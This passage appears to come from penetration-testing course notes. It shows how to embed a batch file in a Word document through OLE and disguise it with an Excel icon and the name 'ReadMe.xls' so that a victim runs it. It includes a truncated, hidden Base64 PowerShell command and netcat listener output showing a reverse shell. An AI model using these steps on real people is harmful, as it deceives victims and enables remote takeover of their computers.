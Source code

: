 Another popular client-side attack against Microsoft Office abuses Dynamic Data Exchange (DDE) to execute arbitrary applications from within Office documents, but this has been patched since December of 2017.3

However, we can still leverage Object Linking and Embedding (OLE) to abuse Microsoft Office's document-embedding feature.

In this attack scenario, we are going to embed a Windows batch file inside a Microsoft Word document.

Windows batch files are an older format, often replaced by more modern Windows native scripting languages such as VBScript and PowerShell. However, batch scripts are still fully functional even on Windows 10 and allow for execution of applications. The following listing presents an initial proof-of-concept batch script (launch.bat) that launches cmd.exe:

```batch
START cmd.exe
```

Next, we will include the above script in a Microsoft Word document. We will open Microsoft Word, create a new document, navigate to the Insert ribbon, and click the Object menu. Here, we will choose the Create from File tab and select our newly-created batch script, launch.bat:

![[Pasted image 20221106124821.png]]

We can also change the appearance of the batch file within the Word document to make it look more benign. To do this, we simply check the Display as icon check box and choose Change Icon, which brings up the menu box seen below, allowing us to make changes:

![[Pasted image 20221106124936.png]]

Even though this is an embedded batch file, Microsoft allows us to pick a different icon for it and enter a caption, which is what the victim will see, rather than the actual file name. In the example above, we have chosen the icon for Microsoft Excel along with a name of ReadMe.xls to fully mask the batch file in an attempt to lower the suspicions of the victim. After accepting the menu options, the batch file is embedded in the Microsoft Word document. Next, the victim must be tricked into double-clicking it and accepting the security warning shown below:

![[Pasted image 20221106125048.png]]

As soon as the victim accepts the warning, cmd.exe is launched. Once again, we have the ability to execute an arbitrary program and must convert this into execution of PowerShell with a Base64 encoded command. This time, the conversion is very simple, and we can simply change cmd.exe to the previously-used invocation of PowerShell as seen in the following script:

```batch
START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....
```

After embedding the updated batch file, double-clicking it results in a working reverse shell.

```bash
kali@kali:~$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 50115
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Offsec>
```